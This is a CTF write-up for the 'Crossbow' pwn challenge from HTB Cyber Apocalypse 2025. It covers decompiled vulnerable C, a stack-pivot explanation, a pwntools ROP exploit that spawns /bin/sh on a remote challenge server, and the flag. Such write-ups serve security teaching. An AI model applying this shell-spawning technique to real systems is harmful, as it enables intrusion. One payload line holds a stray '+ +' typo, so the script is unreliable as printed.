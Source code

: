 ```yaml
---
title: Crossbow
type: writeup
date: 2025-03-29T19:09:45+02:00
description: Writeup for Crossbow [HTB Cyber Apocalypse CTF 2025]
author: sunbather
tags:
- pwn
draft: false
---
```

___

## Challenge Description

Sir Alaric's legendary shot can pierce through any enemy! Join his training and hone your aim to match his unparalleled precision.

## Intuition

The following is the decompiled code for the `training()` and the `target_dummy()` functions, which are the vulnerable functions:

```c
void training(void)

{
  char *local_28 [4];
  
  printf("%s\n[%sSir Alaric%s]: You only have 1 shot, don\'t miss!!\n",&DAT_0040b4a8,&DAT_0040b00e,
         &DAT_0040b4a8);
  target_dummy(local_28);
  printf("%s\n[%sSir Alaric%s]: That was quite a shot!!\n\n",&DAT_0040b4a8,&DAT_0040b00e,
         &DAT_0040b4a8);
  return;
}


void target_dummy(char **param_1)
{
  int iVar1;
  long lVar2;
  char *pcVar3;
  int input;
  
  printf("%s\n[%sSir Alaric%s]: Select target to shoot: ",&DAT_0040b4a8,&DAT_0040b00e,&DAT_0040b4a8);
  iVar1 = scanf("%d%*c",&input);
  if (iVar1 != 1) {
    printf("%s\n[%sSir Alaric%s]: Are you aiming for the birds or the target kid?!\n\n",
           &DAT_0040b4e4,&DAT_0040b00e,&DAT_0040b4e4);
    exit(0x520);
  }
  lVar2 = (long)input;
  pcVar3 = (char *)calloc(1,0x80);
  param_1[lVar2] = pcVar3;
  if (param_1[lVar2] == (char *)0x0) {
    printf("%s\n[%sSir Alaric%s]: We do not want cowards here!!\n\n",&DAT_0040b4e4,&DAT_0040b00e,
           &DAT_0040b4e4);
    exit(0x1b39);
  }
  printf("%s\n[%sSir Alaric%s]: Give me your best warcry!!\n\n> ",&DAT_0040b4a8,&DAT_0040b00e,
         &DAT_0040b4a8);
  pcVar3 = fgets_unlocked(param_1[input],0x80,(FILE *)__stdin_FILE);
  if (pcVar3 == (char *)0x0) {
    printf("%s\n[%sSir Alaric%s]: Is this the best you have?!\n\n",&DAT_0040b4e4,&DAT_0040b00e,
           &DAT_0040b4e4);
    exit(0x45);
  }
  return;
}
```

Basically, we get an arbitrary write up the stack through `param_1[lVar2] = pcVar3`, because `lVar2` can be out of bounds. But our write simply overwrites 8 bytes on the stack with a pointer to the heap, to where our next payload is stored.

After that, with the `fgets_unlocked(param_1[input],0x80,(FILE *)__stdin_FILE)`, we can write on the heap.

The idea here is to overwrite a saved RBP on the stack to poison RSP and point to the heap.
Then the heap will contain addresses to ROP gadgets and we can form a ROP chain like that.

Another problem here is `0x80`, the number of bytes we can read through the `fgets()` call, is not that much.
So our payload has to be quite small.

## Solution

For the solution, I chose to make use of the numerous `pop` gadgets and the `syscall` gadget.
It's a bit weird, but basically I `read(0, data_addr, 59)` and then the rest of the payload uses `data_addr` and `data_addr+16` as arguments to `execve()`.

```py
#!/usr/bin/env python3

from pwn import *

#target = process("./crossbow")
target = remote("83.136.249.101", 42894)

data_addr = 0x40d000
pop_rax = 0x0000000000401001
pop_rdi = 0x0000000000401d6c
pop_rsi = 0x000000000040566b
pop_rdx = 0x0000000000401139
syscall = 0x0000000000404b51

target.sendline(b"-2")

payload = p64(0) + p64(pop_rax) + p64(0) + p64(pop_rdi) + p64(0) + p64(pop_rsi) + p64(data_addr) + p64(pop_rdx) + p64(59) + p64(syscall) + p64(pop_rdi) + p64(data_addr + 16) + p64(pop_rdx) + p64(0) + p64(syscall)

target.sendline(payload)

second_stage = p64(data_addr + 16) + p64(0) + b"/bin/sh\x00" + + b"a" * 35
target.send(second_stage)

target.interactive()
```

The way the payload goes is:

1. Overwrite RBP with `-2`.
2. Payload contains 8 bytes of `0x0` at the beginning because dynamic analysis shows execution skips 8 bytes of my payload so whatev.
3. Set RAX to 0, set RDI to 0, set RSI to data_addr (which is just some address in a writable segment of memory), set RDX to 59, do `syscall` -- equivalent with `read(0, data_addr, 59)`.
4. After the read happens, RAX is set to 59. This is helpful for the next syscall, which should do `execve()`.
5. The second stage of the payload is input for the `read()` syscall. Basically it constructs a fake argv at `data_addr` as follows:

```
data_addr = 0x41000 (for example)

ADDRESS: 8-BYTE VALUE
---------------------------
0x41000: 0x0000000000041010 ---+ // This is basically argv[0] = 0x41010
0x41008: 0x0000000000000000    | // This is basically argv[1] = 0
0x41010: 0x0068732f6e69622f  <-+ // This is "/bin/sh\x00"
```

6. Finally, after the fake argv is constructed, the `execve(data_addr+0x10, data_addr, NULL)` syscall happens. Owned.

### Flag

`HTB{st4t1c_b1n4r13s_ar3_2_3z_SOME_UNIQUE_ID}`
